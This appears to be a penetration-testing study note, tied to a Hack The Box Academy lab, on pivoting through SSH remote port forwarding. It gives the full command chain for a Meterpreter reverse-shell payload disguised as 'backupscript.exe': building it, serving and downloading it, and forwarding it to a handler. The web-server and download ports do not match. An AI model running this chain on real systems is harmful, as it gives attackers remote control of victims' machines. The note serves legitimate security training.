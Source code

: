 #############################################
Remote-Reverse Port Forwarding with SSH
#############################################

Date: 2024-11-02 14:33

Status:

Tags: 
 
************************
Creating a Pivot host
************************

Example 1:  Using a pivot host to deliver a payload and establish a reverse shell

Step 1:  Create the payload

.. code-block:: console

     msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

Step 2: Configure and start the multi handler

.. code-block:: console

    msf6 > use exploit/multi/handler

    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
    payload => windows/x64/meterpreter/reverse_https
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    lhost => 0.0.0.0
    msf6 exploit(multi/handler) > set lport 8000
    lport => 8000
    msf6 exploit(multi/handler) > run

    [*] Started HTTPS reverse handler on https://0.0.0.0:8000

Step 3: Transfer payload to the pivot host

.. code-block:: console

    scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

Step 4:  Start a webserver on the pivot host

.. code-block:: console

    ubuntu@Webserver$ python3 -m http.server 8080

Step 5: Download the payload to the Windows target

.. code-block:: console

    PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"


Once the payload is downloaded we can use SSH port forwarding to forward connections from the pivot host back to Meterpreters handler

.. code-block:: console

    ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

Check the Meterpreter console for a shell

*************************** 
References
***************************
https://academy.hackthebox.com/module/158/section/1427
